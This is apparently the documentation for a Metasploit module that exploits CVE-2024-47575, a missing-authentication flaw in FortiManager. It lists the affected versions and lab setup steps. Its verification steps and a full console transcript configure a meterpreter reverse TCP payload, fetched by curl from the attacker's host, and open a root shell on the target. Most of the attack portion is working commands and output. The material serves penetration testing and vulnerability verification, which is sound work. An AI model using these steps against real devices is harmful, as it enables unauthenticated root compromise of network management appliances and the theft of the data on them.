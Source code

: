 ## Vulnerable Application
This module exploits a missing authentication vulnerability affecting FortiManager and FortiManager
Cloud devices to achieve unauthenticated RCE with root privileges.

For a full technical analysis, please see our
AttackerKB [Rapid7 Analysis](https://attackerkb.com/topics/OFBGprmpIE/cve-2024-47575/rapid7-analysis).

The vulnerable FortiManager versions are:
* 7.6.0
* 7.4.0 through 7.4.4
* 7.2.0 through 7.2.7
* 7.0.0 through 7.0.12
* 6.4.0 through 6.4.14
* 6.2.0 through 6.2.12

The vulnerable FortiManager Cloud versions are:
* 7.4.1 through 7.4.4
* 7.2.1 through 7.2.7
* 7.0.1 through 7.0.12
* 6.4 (all versions).

## Testing
You will need to acquire a firmware image for a suitable version of FortiManager. For example, to deploy FortiManager
`7.6.0` as a VM on HyperV, download the file `FMG_VM64_HV-v7.6.0.F-build3340-FORTINET.out.hyperv.zip`.
* Extract the contents of this archive. You will get a primary hard drive image `fmg.vhd`.
* In HyperV:
  * Create a new virtual machine with 4096 MB RAM and 1 vCPU.
  * Add 4 network adapters, the first must be connected to your external network (or similar) which can assigned an IP
via DHCP. The remaining 3 adapters can remain unconnected.
  * In the IDE controller, add a new hard drive and select the `fmg.vhd` image.
  * In the IDE controller, add a new hard drive and create an empty image (128GB). This is used by the device to store
data after setup.
  * Boot the machine.
* The console will display the FortiManager boot sequence and drop you to a login prompt. The default username is `admin`
and the default password is empty. After you log in as admin the first time, you will be instructed to set a new admin
password.
* After logging in, you will be dropped to a CLI shell. Run the command `get system interface port1` in order to
discover the IP address of your new FortiManager device.
* At this point you can successfully exploit an unlicensed FortiManager device. Alternatively you can acquire a trial
license of FortiManager and complete the setup by visiting `https://<FORTIMANAGER_IP>/` in your browser.

## Verification Steps

1. Start msfconsole
2. `use exploit/linux/misc/fortimanager_rce_cve_2024_47575`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set LHOST eth0`
5. `set LPORT 4444`
6. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
7. `check`
8. `exploit`

## Options
The exploit provides a suitable client certificate/key pair by default, however we can let a user configure
a different certificate/key pair to use if they want. The user can also override the serial number and
platform if needed, but the exploit will try to detect the serial number and platform from the certificate
by default.

### ClientCert
A file path to an x509 cert, signed by Fortinet, with a serial number in the CN

### ClientKey
A file path to the corresponding private key for the ClientCert.

### ClientSerialNumber
If set, use this serial number instead of extracting one from the ClientCert.

### ClientPlatform
If set, use this platform instead of determining the platform at runtime.

## Scenarios

### Default

```
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set RHOST 192.168.86.93
RHOST => 192.168.86.93
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set LPORT 4444
LPORT => 4444
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > show options

Module options (exploit/linux/misc/fortimanager_rce_cve_2024_47575):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   ClientCert                           no        A file path to an x509 cert, signed by Fortinet, with a serial number in the CN
   ClientKey                            no        A file path to the corresponding private key for the ClientCert.
   ClientPlatform                       no        If set, use this platform instead of determining the platform at runtime.
   ClientSerialNumber                   no        If set, use this serial number instead of extracting one from the ClientCert.
   RHOSTS              192.168.86.93    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                  metasploit.html
   RPORT               541              yes       The target port (TCP)


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GfogzcPTWbTb     no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Default



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > check
[*] 192.168.86.93:541 - The service is running, but could not be validated.
msf6 exploit(linux/misc/fortimanager_rce_cve_2024_47575) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] 192.168.86.93:541 - Client certificate common name: FMG-VM0000000000
[*] 192.168.86.93:541 - Using client serial number 'FMG-VM0000000000' and platform 'FortiManager-VM64'.
[*] 192.168.86.93:541 - Connecting...
[*] 192.168.86.93:541 - Registering device...
[*] 192.168.86.93:541 - Creating channel...
[*] 192.168.86.93:541 - Triggering...
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.93:16620) at 2024-11-15 12:48:15 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.93
OS           :  (Linux 5.15.109)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

